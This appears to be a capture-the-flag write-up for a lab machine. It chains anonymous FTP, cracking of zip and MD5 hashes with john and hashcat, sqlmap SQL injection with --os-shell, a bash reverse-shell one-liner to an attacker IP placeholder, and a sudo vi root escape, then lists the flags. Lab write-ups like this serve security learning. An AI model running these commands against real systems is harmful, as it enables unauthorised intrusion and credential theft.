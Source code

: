 ## **Machine IP** 
> 10.129.78.227
## **Inference**
1. Nmap scan shows `ftp` running on port `21`
2. *Anonymous* login allowed.
3. Logined to ftp with `ftp 10.129.78.227`
		```
		Username: Anonymous
		Password:{Anything}
		```
4. Found `backup.zip` file in the ftp. Downloades file with `get backup.zip`.
5. File is protected with password for unzipping.
6. Used `zip2john` to find hash by `zip2john backup.zip > hashes` and saved in a file named `hashes`.
7. Then used `john` to crack hash with `john --wordlist=/usr/share/wordlists/rockyou.txt hashes` 
8. After password being cracked we will view it by `john --show hashes`.
9. Password found out to be *741852963*.
10. Found a password as hash- `2cb42f8734ea607eefed3b70af13bbd3` in index.php.
11. Used `hashid` to check type of hash using MD5 fisrt.
12. Saved hash in file named hash_password.
13. Used hashcat to find password by `hashcat -o 0 -a 0 hash_password /usr/share/wordlists/rockyou.txt`.
14. Found password as **qwerty789**.
15. Opened website on port 80 with `IP- 10.129.78.227`.
16. Found a login page.
17. Used username and password found in index.php.
18. Logged in as admin.
19. Use *sqlmap* to find vulnerabilities by `sqlmap -u "http://10.129.78.227/dashboard.php?search=any+query" --cookie="PHPSESSID=7f5fg9qg93no9up5v2h0564dmh"` used cokkie to log in as admin while testing.
20.  Found out that target is vulnerable to sql injection.
21. Again used sql-map but this time with `--os-shell` argument: `sqlmap -u "http://10.129.78.227/dashboard.php?search=any+query" --cookie="PHPSESSID=7f5fg9qg93no9up5v2h0564dmh" --os-shell`
22. Opened a netcat listener.
23. Got a stable-shell with payload
		```bash
		bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
		```
24. Stabalized the shell
25. Found user flag in `/var/lib/postgresql`.
26. Found a password in `dashboard.php` :- `P@s5w0rd!`.
27. Logined in ssh via this password. 
28. Still we are not root,
29. We will see what sudo previleges we have by `sudo -l`. It shows that we can run vi as root. We will go to https://gtfobins.github.io/gtfobins/vi/#sudo and see what we can to with binaries.
30. According to the website we can do `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` then in vi editor 
```vi
:set shell=/bin/sh
:shell
```
31. Got root flag in `/root `.

## **RESULT**
```
Root flag:dd6e058e814260bc70e9bbdef2715849
User flag:ec9b13ca4d6229cd5cc1e09980965bf7
```